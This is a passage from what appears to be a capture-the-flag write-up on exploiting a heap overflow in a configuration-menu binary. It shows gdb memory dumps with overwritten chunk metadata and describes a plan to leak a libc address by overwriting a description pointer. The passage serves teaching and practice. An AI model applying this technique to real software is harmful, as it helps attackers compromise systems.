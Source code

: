     
    
    gdb-peda$ x/101bx 0x7ffe44197dd0
    0x7ffe44197dd0: 0x42    0x42    0x42    0x42    0x42    0x42    0x42    0x42
    0x7ffe44197dd8: 0x42    0x42    0x42    0x42    0x42    0x42    0x42    0x42
    0x7ffe44197de0: 0x42    0x42    0x42    0x42    0x42    0x42    0x41    0x41 # no null at end of Bs
    0x7ffe44197de8: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
    0x7ffe44197df0: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
    0x7ffe44197df8: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
    0x7ffe44197e00: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
    0x7ffe44197e08: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
    0x7ffe44197e10: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
    0x7ffe44197e18: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
    0x7ffe44197e20: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
    0x7ffe44197e28: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
    0x7ffe44197e30: 0x41    0x41    0x41    0x41    0x00
    

This means that when `strlen` runs on the buffer, it will return 100 (0x64),
which I can see if I run through the call at `0x4012ca` and look at RAX:

    
    
    RAX: 0x64 ('d')
    

By putting a break point after the loop (`0x4012d9`) and hitting `c`, I can
see the heap after the copy is done, and I’ve managed to overwrite heap
metadata:

    
    
    gdb-peda$ x/26xg 0x00000000019f9250
    0x19f9250:      0x0000000000000000      0x0000000000000041  # chunk for config
    0x19f9260:      0x4141414141414141      0x4141414141414141
    0x19f9270:      0x0000000000414141      0x0000000200000001
    0x19f9280:      0x0000000400000003      0x0000000000000018
    0x19f9290:      0x00000000019f92a0      0x0000000000000021  # chuck for desc, should be only 0x20 bytes
    0x19f92a0:      0x4242424242424242      0x4242424242424242
    0x19f92b0:      0x4141424242424242      0x4141414141414141
    0x19f92c0:      0x4141414141414141      0x4141414141414141  # next chunk should start here, but overwritten
    0x19f92d0:      0x4141414141414141      0x4141414141414141
    0x19f92e0:      0x4141414141414141      0x4141414141414141
    0x19f92f0:      0x4141414141414141      0x4141414141414141
    0x19f9300:      0x0000000041414141      0x0000000000000000
    0x19f9310:      0x0000000000000000      0x0000000000000000
    

If I can overwrite heap metadata, that’s a place to try to exploit.

### Exploit

#### Libc Leak

Now that I can write out of bounds on the heap, I can turn this into a libc
leak fairly easily. Starting clean, I’ll create two configurations (A and B).
Then I’ll delete the first one (A). Then I’ll create a new one (C) with sizes
so that it takes the space originally used by A. I’ll have C’s description
overflow so that it overwrites into the next one (B), overwriting the the
pointer to the description with the address of a libc function. Then I’ll use
the menu to display B’s config. Instead of displaying the description, it will
print the address of the libc function.
